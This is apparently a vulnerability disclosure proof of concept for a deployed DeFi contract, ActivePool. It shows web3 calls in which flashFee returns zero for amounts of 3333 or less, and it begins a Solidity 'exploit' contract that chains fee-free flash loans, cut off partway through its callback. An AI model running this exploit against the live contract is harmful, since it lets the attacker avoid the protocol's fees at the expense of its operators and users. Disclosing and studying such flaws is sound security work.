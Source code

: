 
## Proof of Concept
ActivePool is deployed on mainnet at "0x1e3Bf0965dca89Cd057d63c0cD65A37Acf920590"

use the following truffle (combine it with Ganache) Poc 

```
truffle console --networkId 5777
```

shows "0x1e3Bf0965dca89Cd057d63c0cD65A37Acf920590" how it returns 0 as fees for amount of 3333 or under 



```

const Web3 = require('web3');
//save 0x1e3Bf0965dca89Cd057d63c0cD65A37Acf920590 abi on test/abi.json

const abi = require('./test/abi.json');
const activePool_contract = "0x1e3Bf0965dca89Cd057d63c0cD65A37Acf920590";





const activePool = new web3.eth.Contract(abi,activePool_contract);

await activePool.methods.flashFee("0xae7ab96520de3a18e5e111b5eaab095312d7fe84",3333).call();
// return 0
await activePool.methods.flashFee("0xae7ab96520de3a18e5e111b5eaab095312d7fe84",3332).call();
// return 0
await activePool.methods.flashFee("0xae7ab96520de3a18e5e111b5eaab095312d7fe84",3334).call();
// return 1
```

means that for any number that is/or under 3333 we pay no fees


```

interface IActivePool {

function flashLoan(
        address receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external override returns (bool);

}

interface IERC20 {
   function balanceOf(address) external returns(uint256);
}

contract exploit {
   // the desired amount to gain from the accumulated flash loans
    uint256 reachedAmount;
    function setDesiredAmount(uint256 a) external {
      reachedAmount = a;
     }

    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
```